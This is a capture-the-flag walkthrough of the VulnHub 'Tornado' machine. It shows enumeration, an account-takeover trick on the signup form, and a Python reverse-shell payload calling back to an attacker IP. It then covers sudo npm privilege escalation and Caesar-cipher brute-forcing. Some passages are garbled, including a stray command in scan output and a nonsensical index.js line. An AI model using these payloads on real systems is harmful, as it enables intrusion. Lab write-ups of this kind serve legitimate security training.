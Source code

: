 # Torando 
[Room Link](https://www.vulnhub.com/entry/ia-tornado,639/)

![image](https://user-images.githubusercontent.com/5285547/121968926-21f79300-cd6b-11eb-88a2-531041557970.png)


## Enumeration

Let's start with some enum!

### Nmap
```bash
nmap -p- -v 192.168.56.122
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Gobuster

```bash
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 10701]
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.122/manual/]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.56.122/javascript/]
/server-status        (Status: 403) [Size: 279]                                        
/bluesky              (Status: 301) [Size: 318] [--> http://192.168.56.122/bluesky/] 
```

bluesky? lets check it out

```bash
gobuster dir -u http://192.168.56.122/bluesky  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 14979]
/login.php            (Status: 200) [Size: 824]  
/contact.php          (Status: 302) [Size: 2034] [--> login.php]
/about.php            (Status: 302) [Size: 2024] [--> login.php]
/signup.php           (Status: 200) [Size: 825]                 
/css                  (Status: 301) [Size: 322] [--> http://192.168.56.122/bluesky/css/]
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x /imgs                 (Status: 301) [Size: 323] [--> http://192.168.56.122/bluesky/imgs/]
/js                   (Status: 301) [Size: 321] [--> http://192.168.56.122/bluesky/js/]  
/logout.php           (Status: 302) [Size: 0] [--> login.php]                            
/dashboard.php        (Status: 302) [Size: 2024] [--> login.php]                         
/port.php             (Status: 302) [Size: 2098] [--> login.php]   
```

Nice, we have a signup.php and login.php. Looks like a good place to start.  
Lets create an account and check the web app out. 

http://192.168.56.122/bluesky/

![image](https://user-images.githubusercontent.com/5285547/121968941-2d4abe80-cd6b-11eb-9c53-2be3f22bbcc6.png)

http://192.168.56.122/bluesky/signup.php

![image](https://user-images.githubusercontent.com/5285547/121969063-700c9680-cd6b-11eb-95eb-4f10ec2fa170.png)

After registering and going to login.php we get a dashbaord interface.

![image](https://user-images.githubusercontent.com/5285547/121969202-afd37e00-cd6b-11eb-9f1c-4a4443556bc1.png)

![image](https://user-images.githubusercontent.com/5285547/121969243-c11c8a80-cd6b-11eb-8e4b-d235c460b5ff.png)

![image](https://user-images.githubusercontent.com/5285547/121969267-d2659700-cd6b-11eb-996a-eea16e5413c9.png)

![image](https://user-images.githubusercontent.com/5285547/121969288-dee9ef80-cd6b-11eb-9461-ddcb1d8576e0.png)

Ok, so the contact form is not working and not much else is present apart from the hint for LFI. After testing I could not find any LFI vulnerability.  
Checking the source code of the web pages, we see one comment out of place on the portfolio.php page. 

```html
<!-- /home/tornado/imp.txt -->
```

Now the LFI makes sense, after trying a few variations we can get the working payload as

```bash
http://192.168.56.122/~tornado/imp.txt
```

![image](https://user-images.githubusercontent.com/5285547/121969565-7bac8d00-cd6c-11eb-882b-bd3585f0d9ba.png)

Now we have a list of what looks like varified users. Lets test the accounts and see if any have higher prividledges.
Using Burp community I captured the signup.php request and sent it to intruder so i can see if i can make the account on the list.  
It seemded none had extra access we see jacob@tornado, admin@tornado, hr@tornado are already registered.  
In the requests response I noticed a 'name:-13' element. On successful signup it was 'name:-15'

![image](https://user-images.githubusercontent.com/5285547/121970450-7d775000-cd6e-11eb-91c5-4eff2081d8b9.png)

I then tried to edit the source code with dev tools (F12) field to allow more charaters in the email field.
Changing the charate limit to 20 then trying again with 'jacob@tornado a' we can make a new acocunt. After now loggin in with jacob, 
the contact form works. 

![image](https://user-images.githubusercontent.com/5285547/121970990-a815d880-cd6f-11eb-9065-c3f320f98b6e.png)

![image](https://user-images.githubusercontent.com/5285547/121971000-b06e1380-cd6f-11eb-9535-e0f15dc61742.png)

Using tcpdump we can see if we get any ping back to our machine, which we do.

```bash
sudo tcpdump -i eth1
```

![image](https://user-images.githubusercontent.com/5285547/121971233-2e321f00-cd70-11eb-983c-5540275aede0.png)

## User

Looks like we can get a reverse connection. 

Payload
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
kill current terminal
```
Ctrl + z
```
echo raw stty then forground it
```
stty raw -echo;fg
```
select terminal
```
xterm
```
when you get the terminal back enter
```
export TERM=xterm
```

![image](https://user-images.githubusercontent.com/5285547/121971512-c3351800-cd70-11eb-8e80-f06ad6df8344.png)

Enumerating the system we quickly see our priv esc route on the machine. 

![image](https://user-images.githubusercontent.com/5285547/121972155-4acf5680-cd72-11eb-86d2-0ce04c48c006.png)


First i created an index.js file
cd /tmp
mkdir shell
echo 'module.exports = install could be dangerous' > index.js
cp index.js shell

Now we need a package.json file and chmod to make it executable, then we can run the sudo command to user.

```bash
sudo -u catchme npm run-script shell
```

![image](https://user-images.githubusercontent.com/5285547/121973542-6c7e0d00-cd75-11eb-9fd0-e5a514ec3277.png)

![image](https://user-images.githubusercontent.com/5285547/121973630-a3ecb980-cd75-11eb-9039-3ad591d17b11.png)

We see a 'enc.py'

```bash
cat enc.py
```

```bash
s = "abcdefghijklmnopqrstuvwxyz"
shift=0
encrypted="hcjqnnsotrrwnqc"
#
k = input("Input a single word key :")
if len(k) > 1:
        print("Something bad happened!")
        exit(-1)

i = ord(k)
s = s.replace(k, '')
s = k + s
t = input("Enter the string to Encrypt here:")
li = len(t)
print("Encrypted message is:", end="")
while li != 0:
        for n in t:
                j = ord(n)
                if j == ord('a'):
                        j = i
                        print(chr(j), end="")
                        li = li - 1

                elif n > 'a' and n <= k:
                        j = j - 1
                        print(chr(j), end="")
                        li = li - 1
#----snip

Seeing this was a ceasar cipher i wrote a quick python script to guess the key for me. 

```python3
import string

alphabet = string.ascii_lowercase  # "abcdefghijklmnopqrstuvwxyz"
encrypted = "hcjqnnsotrrwnqc"  # message
enc_len = len(encrypted)  # msg length

for i in range(40):
    plain_text = ""
    for c in encrypted:
        if c.islower():
            # find the position in 0-25
            c_unicode = ord(c)
            c_index = ord(c) - ord("a")
            # perform the negative shift
            new_index = (c_index - i) % 26
            # convert to new character
            new_unicode = new_index + ord("a")
            new_character = chr(new_unicode)
            # append to plain string
            plain_text = plain_text + new_character
        else:
            # since character is not uppercase, leave it as it is
            plain_text += c
    print(f"ID:{i} - {plain_text}")
```

![image](https://user-images.githubusercontent.com/5285547/121975840-7b1af300-cd7a-11eb-8d84-897fb52460cb.png)

The password wasn't 100% and will require some guess work, but that's root and the last flag! 

![image](https://user-images.githubusercontent.com/5285547/121976051-ef559680-cd7a-11eb-9eeb-4a11cbfb7d92.png)


Hope you liked the guide. Happy hacking :)
